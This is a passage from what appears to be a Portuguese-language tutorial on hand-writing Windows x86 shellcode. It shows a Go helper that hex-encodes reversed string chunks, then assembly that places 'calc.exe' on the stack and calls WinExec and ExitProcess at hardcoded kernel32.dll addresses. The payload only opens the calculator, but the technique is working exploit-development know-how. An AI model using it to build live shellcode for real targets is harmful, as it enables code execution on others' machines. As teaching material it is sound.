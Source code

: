 ```go
                chunk := reverseString(chunks[i])
                encoded := hex.EncodeToString([]byte(chunk))
                fmt.Println("0x"+encoded)
        }
}
```

Ao executar, passando a *string* como argumento, temos a sequência desejada:

![](/img/posts/Pasted%20image%2020240716154302.png)

```
0x6578652e
0x636c6163
```

Com isso podemos montar a função `WinExec()` em Assembly.

```nasm
xor  ecx, ecx         ; zerando ecx
push ecx              ; string terminator 0x00 para "calc.exe"
push 0x6578652e       ; exe. : 6578652e
push 0x636c6163       ; clac : 636c6163

mov  eax, esp         ; salvando o ponteiro para a string "calc.exe" em ebx

; UINT WinExec([in] LPCSTR lpCmdLine, [in] UINT   uCmdShow);
inc  ecx              ; uCmdShow = 1
push ecx              ; uCmdShow *ptr para stack na posição 2 - LIFO
push eax              ; lpcmdLine *ptr para stack na posição 1
mov  ebx, 0x772e5140  ; chamando o endereço da função WinExec() na kernel32.dll
call ebx

```

Já a função [ExitProcess()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess) tem o seguinte formato:

```c
void ExitProcess(UINT uExitCode);
```

Ela servirá para encerrar o processo no *host* após a calculadora ser invocada, sem o perigo de causar nenhum *crash* no programa.

Em Assembly, sua montagem segue:

```nasm
; void ExitProcess([in] UINT uExitCode);
xor  eax, eax         ; zerando eax
push eax              ; push NULL
mov  eax, 0x772a7460  ; chamando o endereço da função ExitProcess na kernel32.dll
jmp  eax              ; executando a função ExitProcess
```
